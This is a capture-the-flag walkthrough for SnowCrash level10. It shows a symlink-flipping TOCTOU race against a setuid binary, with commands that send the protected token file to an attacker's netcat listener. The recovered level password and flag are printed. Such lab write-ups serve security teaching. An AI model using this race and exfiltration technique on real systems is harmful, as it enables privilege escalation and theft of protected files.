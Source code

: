 # level10

```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Testing files
```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ touch /tmp/flag && ./level10 /tmp/flag localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

Ok, let's make a serv on host:
```
host$> nc -l 6969
.*( )*.
```

Hmm.. now let's try to access that token file
By using strace we can see that the program is using `access` to check for right, let's try to provoc a 'TOCTOU':

Create a link and create the 'trick':
```
level10@SnowCrash:~$ touch public
level10@SnowCrash:~$ while true; do ln -sf token flip; ln -sf public flip; done &
```

Let's try to abuse:
```
level10@SnowCrash:~$ while true; do ./level10 flip $HOST_IP; done
```

Then nc in loop on host and then you may get that result o/
```
host$>nc -l 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

HOURRA !
```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
